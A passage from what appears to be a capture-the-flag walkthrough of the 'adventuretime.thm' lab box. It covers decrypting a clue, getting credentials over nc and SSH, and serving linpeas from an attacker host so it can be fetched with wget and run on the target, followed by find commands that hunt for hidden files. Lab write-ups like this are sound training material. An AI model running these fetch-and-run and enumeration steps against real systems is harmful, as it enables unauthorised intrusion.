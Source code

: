 * When we search for the above keywords, we can see that this is referring to AES CBC encryption

* CyberChef has a recipe for AES Decrypt as well, where we can feed the above values. The output string - "the magic safe is accessibel at port 31337. the magic word is: ricardio"

* We can follow the above instructions:

  ```sh
  nc adventuretime.thm 31337
  # use the above password
  # this gives us new username "apple-guards"
  ```

* We have a valid username-password pair now; login to SSH:

  ```sh
  ssh apple-guards@adventuretime.thm
  # use the previously decoded password

  id
  # apple-guards

  pwd

  ls -la /home
  # we have various users in this box

  ls -la
  # we have some interesting files

  cat flag1

  cat mbox
  ```

* The 'mbox' file shows a mail from 'marceline' to 'apple-guards'; it says that there is a hidden file containing the next clue. We can check ```linpeas``` for further enumeration:

  ```sh
  # in attacker machine
  python3 -m http.server 8000

  # in victim ssh, fetch file
  wget http://10.14.60.78:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```

* We do not get anything useful from ```linpeas```. Since the hint is for hidden files, we can attempt to search only for hidden files or files owned by 'marceline':

  ```sh
  find / -type f -iname ".*" -ls 2>/dev/null

  find / -type f -user marceline 2>/dev/null
  ```
